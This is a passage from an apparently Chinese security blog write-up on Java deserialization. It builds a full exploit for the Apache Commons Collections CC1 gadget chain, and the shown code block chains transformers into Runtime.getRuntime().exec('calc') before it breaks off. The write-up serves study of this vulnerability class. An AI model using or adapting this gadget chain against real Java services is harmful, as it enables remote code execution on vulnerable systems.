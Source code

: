 [![](assets/1700127979-70c0118efc7d34d06f6f5691dcc39183.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231116155244-20255d0c-8455-1.png)

到这里，我们的入口的地放就解决了，接下来我们嫁接 cc1 中的 LazyMap.get 这个思路从而写出完整的调用链。

### 完整 exp

```bash
package org.example;


import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.functors.ChainedTransformer;
import org.apache.commons.collections.functors.ConstantTransformer;
import org.apache.commons.collections.functors.InvokerTransformer;
import org.apache.commons.collections.keyvalue.TiedMapEntry;
import org.apache.commons.collections.map.LazyMap;


import javax.management.BadAttributeValueExpException;
import java.io.*;
import java.lang.reflect.*;
import java.util.HashMap;
import java.util.Map;

public class CommonscollectionsTest {
    public static void main(String[] args) throws Exception{
        Transformer[] transformer = new Transformer[]{
                new ConstantTransformer(Runtime.class),
                new InvokerTransformer("getMethod",new Class[]{String.class,Class[].class},new Object[]{"getRuntime",null}),
                new InvokerTransformer("invoke",new Class[]{Object.class,Object[].class},new Object[]{null,null}),
                new InvokerTransformer("exec",new Class[]{String.class},new Object[]{"calc"})
        };
        ChainedTransformer chainedTransformer = new ChainedTransformer(transformer);

```